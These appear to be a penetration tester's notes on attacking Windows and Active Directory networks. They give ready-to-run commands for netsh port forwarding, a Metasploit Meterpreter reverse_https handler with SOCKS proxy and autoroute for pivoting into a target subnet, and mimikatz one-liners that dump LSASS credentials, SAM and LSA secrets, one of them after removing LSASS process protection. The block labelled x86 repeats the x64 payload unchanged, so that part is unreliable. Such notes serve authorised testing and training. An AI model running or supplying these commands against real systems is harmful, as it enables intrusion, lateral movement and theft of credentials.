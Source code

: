 ```ad-example
List all rules

~~~powershell
netsh interface portproxy show all 
~~~

- Remove established rules

~~~powershell
netsh interface portproxy delete v4tov4 listenport=9090 listenaddress=localhost
~~~
```

```ad-note
title: Meterpreter AutoRoute + Listener
collapse:yes

These commands are useful when you are about to compromise a machine and know the subnet where the other target machines are connected. 

You want to run a shellcode runner to connect to your meterpreter listener. Once the connection is established this command will make an autoroute SOCKS5 session, and you will be able to connect to the other machines via proxychains.

> Remember to change the subnet IP address when using these.

*x64*

~~~bash
msfconsole -q -x "use auxiliary/server/socks_proxy; set SRVPORT 1080; set SRVHOST 127.0.0.1; run -j; use exploit/multi/handler; set PAYLOAD windows/x64/meterpreter/reverse_https; set LHOST tun0; set LPORT 443; set AutoRunScript 'autoroute -s 172.16.231.0/24'; set EnableStageEncoding true; set StageEncoder x64/xor_dynamic; run"
~~~

*x86*

~~~bash
msfconsole -q -x "use auxiliary/server/socks_proxy; set SRVPORT 1080; set SRVHOST 127.0.0.1; run -j; use exploit/multi/handler; set PAYLOAD windows/x64/meterpreter/reverse_https; set LHOST tun0; set LPORT 443; set AutoRunScript 'autoroute -s 172.16.231.0/24'; set EnableStageEncoding true; set StageEncoder x64/xor_dynamic; run"
~~~
```

## Credential Access (OS Credential Dumping)

> If you have obtained privileged access to the host, take a moment to dump credentials from LSASS using mimikatz.

~~~ad-note
title: Mimikatz LSASS Dump

*Mimikatz One-Liner*

```powershell
mimikatz.exe "privilege::debug" "log HOSTNAME.txt" "sekurlsa::logonpasswords" "sekurlsa::ekeys" "token::elevate" "lsadump::sam" "lsadump::secrets"
```

*Mimikatz One-Liner + PPL* (mimikatz trunk needed)

```powershell
mimikatz.exe "!+" "!processprotect /process:lsass.exe /remove" "privilege::debug" "log HOSTNAME.txt" "sekurlsa::logonpasswords" "sekurlsa::ekeys" "token::elevate" "lsadump::sam" "lsadump::secrets"
```
~~~
